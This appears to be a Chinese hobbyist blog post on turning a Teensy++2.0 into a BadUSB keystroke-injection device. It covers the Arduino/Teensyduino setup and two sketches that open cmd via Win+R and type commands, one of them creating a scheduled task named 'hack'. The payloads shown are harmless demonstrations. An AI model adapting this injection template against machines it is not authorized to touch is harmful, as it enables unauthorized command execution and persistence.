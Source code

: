 title: BadUSB —— Teensy++2.0
author: hojun
avatar: /images/favicon.png
authorDesc: 一个好奇的人
categories: 技术
date: 2017-06-07 11:18:31
authorLink: /about_hojun.html
authorAbout:
tags:
 - 搞事
 - 硬件
 - hacker
keywords: BadUSB —— Teensy++2.0
description: BadUSB —— Teensy++2.0
photos:
 - https://wx1.sinaimg.cn/large/006bYVyvgy1fljtj7mwiaj30dw0dwdmi.jpg
---
参考http://bbs.pediy.com/showthread.php?t=213719
前几天发现了BadUSB这个好玩的东西，橡皮鸭和烧鹅都买不起就在某宝上买了个Teensy++2.0
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fljtj7mwiaj30dw0dwdmi.jpg)

## **1.下载Teensyduino**

https://www.pjrc.com/teensy/td_download.html

## **2.安装Arduino。我这里安装1.8.0**

https://pan.baidu.com/s/1b4jPX8#list/path=%2F&parentPath=%2FArduino

## **3.安装Teensyduino**

![](https://wx4.sinaimg.cn/mw690/006bYVyvgy1fljtj72nghj30e20atju0.jpg)
注意红色框起来的是支持的Arduino版本。

4.可以插入Teensy++2.0开始搞事了
![](https://wx4.sinaimg.cn/large/006bYVyvgy1fljtj6jkxnj30dw0gogmj.jpg)

注意：
1.汉化 file->preferences 选择language为简体中文 2.工具里面要选![](https://wx3.sinaimg.cn/large/006bYVyvgy1fljtj5zbdrj30i2051dg0.jpg)
送份代码：

代码：
```c
void setup(){ //初始化
  Keyboard.begin();//开始键盘通信
  delay(1000);//延时1000毫秒，不要太短，因为每天电脑的运行速度都不一样 
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键
  delay(500);
  Keyboard.press(KEY_LEFT_GUI);//按下徽标键 也就是win键  
  delay(500);  
  Keyboard.press('r');//按下r键  
  delay(500);  
  Keyboard.release(KEY_LEFT_GUI);//松掉win键  
  Keyboard.release('r');//松掉r键  
  //delay(500);  
  Keyboard.println("cmd");//输入cmd进入DOS
  delay(500);
  Keyboard.press(KEY_RETURN);  //按下回车键
  Keyboard.release(KEY_RETURN); //释放回车键
  delay(500);  
  Keyboard.println("Hello Teensy++2.0"); 
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  delay(500);  
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键  
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键 我们再次关闭开启的大写键
  delay(500); 
  Keyboard.println("exit");
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  Keyboard.end();//结束键盘通讯
} 

void loop()//循环，这里的代码
{ 
//循环体 写入你要循环的代码
}
```

在附一段代码，在21点打开个txt
```c
void setup(){ //初始化
  Keyboard.begin();//开始键盘通信
  delay(1000);//延时1000毫秒，不要太短，因为每天电脑的运行速度都不一样 
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键
  delay(500);
  Keyboard.press(KEY_LEFT_GUI);//按下徽标键 也就是win键  
  delay(500);  
  Keyboard.press('r');//按下r键  
  delay(500);  
  Keyboard.release(KEY_LEFT_GUI);//松掉win键  
  Keyboard.release('r');//松掉r键  
  //delay(500);  
  Keyboard.println("cmd");//输入cmd进入DOS
  delay(500);
  Keyboard.press(KEY_RETURN);  //按下回车键
  Keyboard.release(KEY_RETURN); //释放回车键
  delay(500);  
  Keyboard.println("D:");
  Keyboard.println("echo I'm back!>a.txt"); 
  Keyboard.println("schtasks /create /tn \"hack\" /tr \"d:a.txt\" /sc once /st 21:12"); 
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  delay(500);  
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键  
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键 我们再次关闭开启的大写键
  delay(500); 
  Keyboard.println("exit");
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  Keyboard.end();//结束键盘通讯
} 

void loop()//循环，这里的代码
{ 
//循环体 写入你要循环的代码
}
```